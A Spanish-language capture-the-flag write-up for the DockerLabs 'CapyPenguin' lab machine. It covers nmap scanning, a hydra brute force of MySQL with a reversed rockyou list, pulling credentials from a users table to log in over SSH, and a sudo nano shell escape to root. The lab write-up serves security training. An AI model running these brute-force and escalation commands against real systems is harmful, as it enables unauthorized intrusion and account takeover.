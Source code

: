 # [CapyPenguin](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh capypenguin.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22** y **3306**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/b544b52d-5645-4629-9f81-7ab3264f304d)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP podemos ver una página como está:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/06bf7933-f450-4c49-91ef-bb7e26261fed)
<br>

Y nos está dando alguna pista respecto al rockyou cuando vayamos a aplicar fuerza bruta, además nos indica un posible usuario que sería **capybarauser**

<br>
<br>

## Hydra / Medusa

Pero antes de empezar a hacer fuerza bruta, debemos seguir la pista que nos dejó en la web, para llevar a cabo eso nos copiamos el rockyou a nuestro directorio de trabajo con `cp /usr/share/wordlists/rockyou.txt .`, una vez copiado le damos la vuelva al rockyou con el siguiente comando `tac rockyou.txt > mirockyou.txt`. Por lo que ahora estaremos preparados para aplicar fuerza bruta. En primer lugar la aplicaremos al servicio ssh pero sin éxito. Por lo que después probamos a hacer fuerza bruta al servicio mysql `hydra -l capybarauser -P /home/kali/dockerlabs/CapyPenguin/mirockyou.txt mysql://172.17.0.2 -t 4 -I`. <br>
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br>
`-t` ⮞ número de interacciones para evitar el error de abajo <br> 
`-I` ⮞ para que sobrescriba el archivo hydra.restore en el caso de que hayamos cancelado un proceso de fuerza bruta antes <br> 
<br>

> Si te da un error como el de abajo, entra [aquí](https://github.com/TerrorAterrador/WriteUps/blob/main/DockerLabs/Bozaruwarahctf.md)** para solucionarlo__:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/02361559-3503-4606-8d04-602919c4aac0)

<br>

Una vez hecha la fuerza bruta al mysql, nos encontrará las siguientes credenciales para el usuario **capypenguin**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/b5b900b8-7b22-4f37-83e0-ade8cb83396d)

<br>
<br>

## Mysql (Puerto 3306)

Accedemos al servidor de mysql con la siguiente instrucción: `mysql -u capypenguin -p` ponemos la contraseña, comprobamos que podemos acceder:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/26e8ba24-b93b-43b7-869e-8e05c4743cf0)

<br>

Listamos las bases de datos con `show databases;`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/0b8fb185-9777-492f-9972-686b7a51ae8c)

<br>

Vemos varias bases de datos pero todas menos la de `pinguinasio_db` son las de por defecto, por lo que entramos a la base de datos `pinguinasio_db` con `use pinguinasio_db`. Una vez seleccionada, listamos las tablas de dicha base de datos con `show tables`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/f1914b34-7341-4678-8adc-06a22f0f58d1)

<br>

Observamos que hay una tabla llamada `users` por lo que haremos `select * from users` lo cual nos permitirá listar todo el contenido de dicha tabla. Nos mostraría el siguiente contenido:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3b4295b2-c894-4e9a-9fda-70255541ad87)

<br>
<br>


## SSH(Puerto 22)

Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina CapyPenguin a través del ssh de la siguiente forma `ssh mario@172.17.0.2`, y a continuación nos pedirá la contraseña. Podemos ver que estamos dentro de la máquina con `hostname -I ; whoami`.<br>
 > El (;) concatena dos comandos.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/d3b4b36d-e2d7-42c9-9b43-50c884503335)

<br>
<br>

## Escala de Privilegios

Una vez dentro de la máquina ejecutamos `sudo -l` observamos que podemos correr `/usr/bin/nano` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/0725a4ed-2bc2-48bd-b4c7-baa1d5d2ca64)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de `sudo` en `/usr/bin/nano`, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/5be62386-af3e-4702-8363-a275e63c6d0d)

<br>

Por lo cual para elevar privilegios lo que debemos hacer es seguir dichos pasos ejecutando los sigueintes comando en este orden: 
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. `sudo -u root /usr/bin/nano`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. `CTRL + R`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. `CTRL + X`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 4-. `reset; bash 1>&0 2>&0` <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 5-. `CTRL + L`
<br>

Y listo ya somos root!
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/7200c882-a04a-42c9-92bd-2bb0e3c2b61e)
